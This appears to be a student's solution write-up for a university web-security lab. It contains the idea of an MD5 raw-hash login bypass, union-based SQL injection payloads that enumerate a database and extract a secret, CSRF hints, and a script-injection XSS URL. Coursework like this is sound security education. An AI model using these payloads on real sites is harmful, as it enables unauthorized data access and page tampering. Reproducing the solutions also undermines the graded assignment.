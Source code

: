 **4.2.1.3**: Escapes the username and applies the MD5 hash function to the password.

Write a script that keeps generating a random string until its MD5 hash contains a substring ||1, ||2, ..., ||9, or or1, or2, ..., or9. Know why these are acceptable and not ||0 or or0. I implemented in Python, and the fastest it took was about 10 minutes, while the longest was a little more than an hour. Implementing in C may improve speed.

**4.2.1.4**: A different database from the school VPN

To find the name of database:

	0' union select 1,2,3,database()#

To find the version of SQL server:

	0' union select 1,2,3,@@version#

To find all the tables in the database:
	
	0' union select 1,2,3,group_concat(table_name separator ', ') from information_schema.tables where table_type='base table'#

To find all columns in the HINT table:
	
	0' union select 1,2,3,group_concat(column_name separator ', ') from information_schema.columns where table_name='HINT'#

To find the hint message:
	
	0' union select 1,2,3,group_concat(message separator ', ') from HINT#

*Hint: go to table SECRET and get a secret string from row with your md5(netid)*

To find all columns in the SECRET table:
	
	0' union select 1,2,3,group_concat(column_name separator ', ') from information_schema.columns where table_name='SECRET'#

To find the secret string with md5(netid):
	
	0' union select 1,2,3,secret from SECRET where hash=md5('mschoi2')#

#### 4.2.2 Cross-site Request Forgery (CSRF)

**4.2.2.1**: No defenses

Use **iframe** to load a page with attacker's credentials.

**4.2.2.2**: Token validation

Use **document.cookie()** to set a random token on top of **iframe**.

#### 4.2.3 Cross-site Scripting (XSS)

**4.2.3.1**: Warm-up XSS attack

Make the link to redirect to http://www.ece.illinois.edu/.
```
http://trurl.cs.illinois.edu/multivac/index.php?name=
<script>
window.onload=function(){
var url=document.getElementsByTagName("a");
url[0].href="http://www.ece.illinois.edu/";}
</script>
```
